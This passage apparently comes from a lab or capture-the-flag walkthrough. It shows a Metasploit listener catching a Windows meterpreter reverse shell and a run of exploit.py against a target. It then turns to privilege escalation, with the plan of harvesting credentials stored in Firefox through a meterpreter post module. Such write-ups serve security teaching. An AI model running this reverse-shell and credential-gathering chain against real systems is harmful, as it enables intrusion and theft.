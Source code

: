 **Kali #1**

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eth0
set lport 4444
exploit -j
```

**Kali #2**

```
python exploit.py $VICTIM 31337
```

## Privilege Escalation

There wasn't much running on the server but I was able to see that firefox was running. Browsers can have credentials stored in them so I investigated further into this.

<figure><img src="../../.gitbook/assets/image (63) (1).png" alt=""><figcaption></figcaption></figure>

```
meterpreter > run post/windows/gather/enum_applications
```

<figure><img src="../../.gitbook/assets/image (75) (1).png" alt=""><figcaption></figcaption></figure>
